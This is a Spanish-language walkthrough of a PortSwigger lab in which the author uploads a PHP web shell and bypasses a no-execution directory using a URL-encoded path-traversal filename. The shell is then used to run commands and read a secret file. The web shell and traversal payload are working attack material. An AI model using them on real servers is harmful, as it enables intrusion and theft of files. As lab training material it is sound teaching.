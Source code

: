 ```yaml
---
title: "Web shell upload via path traversal"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via path traversal
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, el servidor está configurado para `prevenir` la `ejecución` de `archivos` proporcionados por el usuario, pero esta restricción puede ser eludida explotando un `path traversal`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_5.png)

Si accedemos a `https://0af3002604e2eaaa825ad87900e80024.web-security-academy.net/files/avatars/shell.php` vemos que `no` se está `interpretando`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_6.png)

Al parecer los archivos `php` de este directorio `no` se `interpretan`, lo que debemos hacer es `subir` el `archivo` nuevamente y `capturar` la `petición` con `Burpsuite`. Una vez hecho esto vamos a efectuar un path traversal `filename="%2e%2e%2fshell.php"`, este payload es `../shell.php` pero tenemos que `url encodearlo` porque nos elimina el `../`

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fshell.php"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Si accedemos a `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=whoami` veremos que hemos logrado un `RCE (Remote Code Execution)` debido a que el `path traversal` ha sido exitoso y el directorio `/files` no tenía `ninguna restricción` a la hora de `interpretar` archivo `php`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_7.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_8.png)

Obtenemos el contenido del archivo secret `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_9.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_10.png)
